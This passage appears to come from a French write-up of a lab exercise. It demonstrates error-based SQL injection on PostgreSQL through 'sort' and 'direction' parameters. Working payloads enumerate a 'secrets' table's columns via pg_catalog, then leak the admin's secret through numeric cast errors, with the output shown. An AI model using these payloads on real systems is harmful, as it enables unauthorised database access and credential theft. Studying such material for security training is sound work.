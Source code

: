 ```sql
SQLSTATE[22P02]: Invalid text representation: 7 ERREUR:  syntaxe en entrée invalide pour le type numeric : « 3- »
```

Récupération des noms des colonnes :

```sql
(CAST((SELECT a.attname FROM pg_catalog.pg_attribute a JOIN pg_catalog.pg_class c ON a.attrelid = c.oid JOIN pg_catalog.pg_namespace n ON c.relnamespace = n.oid WHERE n.nspname = current_schema() AND c.relname = 'secrets' AND a.attnum > 0 AND NOT a.attisdropped ORDER BY a.attnum LIMIT 1 OFFSET 0) AS NUMERIC))
```

```sql
SQLSTATE[22P02]: Invalid text representation: 7 ERREUR:  syntaxe en entrée invalide pour le type numeric : « id »
```

```sql
(CAST((SELECT a.attname FROM pg_catalog.pg_attribute a JOIN pg_catalog.pg_class c ON a.attrelid = c.oid JOIN pg_catalog.pg_namespace n ON c.relnamespace = n.oid WHERE n.nspname = current_schema() AND c.relname = 'secrets' AND a.attnum > 0 AND NOT a.attisdropped ORDER BY a.attnum LIMIT 1 OFFSET 1) AS NUMERIC))
```

```sql
SQLSTATE[22P02]: Invalid text representation: 7 ERREUR:  syntaxe en entrée invalide pour le type numeric : « username »
```

```sql
(CAST((SELECT a.attname FROM pg_catalog.pg_attribute a JOIN pg_catalog.pg_class c ON a.attrelid = c.oid JOIN pg_catalog.pg_namespace n ON c.relnamespace = n.oid WHERE n.nspname = current_schema() AND c.relname = 'secrets' AND a.attnum > 0 AND NOT a.attisdropped ORDER BY a.attnum LIMIT 1 OFFSET 2) AS NUMERIC))
```

```sql
SQLSTATE[22P02]: Invalid text representation: 7 ERREUR:  syntaxe en entrée invalide pour le type numeric : « secret »
```

Récupération du secret de l'administrateur :&#x20;

```sql
(CAST((SELECT id || ', ' || username || ', ' || secret FROM secrets LIMIT 1 OFFSET 0) AS NUMERIC))
```

```sql
SQLSTATE[22P02]: Invalid text representation: 7 ERREUR:  syntaxe en entrée invalide pour le type numeric : « 1, admin, Mon mot de passe est passw0rd »
```

_Exploitation du paramètre "direction"_

L'exploitation du paramètre "direction" est très similaire à celle du paramètre "sort". Pour cette raison, seule la récupération du secret de l'administrateur sera illustrée :&#x20;

```sql
ASC,(CAST((SELECT id || ', ' || username || ', ' || secret FROM secrets LIMIT 1 OFFSET 0) AS NUMERIC))
```
